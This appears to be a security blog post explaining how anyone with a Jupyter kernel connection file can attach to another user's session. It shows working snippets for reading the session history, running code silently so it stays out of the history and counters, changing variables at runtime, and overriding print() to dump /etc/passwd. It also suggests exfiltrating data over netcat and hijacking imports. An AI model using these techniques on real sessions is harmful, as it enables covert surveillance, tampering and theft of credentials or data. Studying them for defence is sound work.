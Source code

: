 # Cohabitating on a Jupyter session

Instead of focusing on the password and token based authentication most folks are used to seeing as part of their JupyterLab interface, we're going to take a deeper look at the internals. Come play along!

1. Start an instance. My go-to command from WSL2 is `jupyter-lab --no-browser`.
2. See `http://localhost:8888/lab?token={SOMESTUFF}`? Yup, that'll help you connect to the session in the browser, but we're going to take a different route.
3. Take a look at your various runtimes (sorted by modification time): `ls -tlr ~/.local/share/jupyter/runtime/`. [1]
4. See the most recent file that starts with `kernel` and ends with `.json`? That has some goodies. Take a look and keep a copy. 

![kerneljson](../.img/kerneljson.JPG)

With that file, we can create a [KernelClient](https://jupyter-client.readthedocs.io/en/stable/api/client.html).

```
cf = jupyter_client.find_connection_file("your.json")
kc = jupyter_client.BlockingKernelClient(connection_file = cf)
kc.load_connection_file()
kc.start_channels()
```

We can now do things like checking out the session history: `kc.get_shell_msg(kc.history())`. This includes all of the kernel history, including things that happened before we joined.

![history](../.img/history.JPG)

And we can execute commands: `kc.execute_interactive(code="print('banana')")`. Keep in mind that this will show up in the history.

And sometimes we don't want to be logged. So try: `kc.execute_interactive(code="print('grapefruit')", silent=True)`. Boom, not in the history anymore. You know those cell execution counters? This also prevents them from incrementing and therefore helps keep us stealthy (our `print('banana')` _would_ increment the counter).

Because we're executing commands in ipython, other fun things work like executing system commands with `!`: `kc.execute_interactive(code="!ls", silent=True)`.

This execution method can even let us tamper with Jupyter-users during runtime. Check out this well-timed variable modification...

![runtime](../.img/runtime.JPG)

between 13 and 14, we ran: `kc.execute_interactive(code="test = 'jimmy'", silent=True)`

and the execution count and history don't even give us away.

Can you think of a scenario where you'd want a user to run your code on a regular basis? With this technique, we can overwrite Python built-in functions: `kc.execute_interactive(code="def print(*args):\n\timport os\n\tos.system('cat /etc/passwd')\n\tdisplay(*args)", silent=True)`. In this example, the user would see their entire `/etc/passwd` before their desired `print()` string, but your payload could include sending this file silently over netcat. It's fun to think about what sorts of things you would want updated every time the user executes `print()`. You could extract their variables in real time to monitor their progress... and those are only passive payloads. Imagine what you could tamper with this way (like overriding the user's benign imports with your own malicious code). This functionality will persist until the kernel is restarted.

It's also possible that this was entirely too complicated. You can do similar things from `jupyter console --existing your.json`... but I'm not sure you can be quite as stealthy or have the range of raw functionality. If you choose to do it with `jupyter console`, also be aware that killing the console there will also kill it for any cohabitants. This also presupposes that you have that key `.json`, and if you have that, you probably have code execution some other way. Is it strictly necessary? Probably not. Was it fun? Certainly. Do you have any other cool uses for this technique?


[1] https://stackoverflow.com/a/70263390
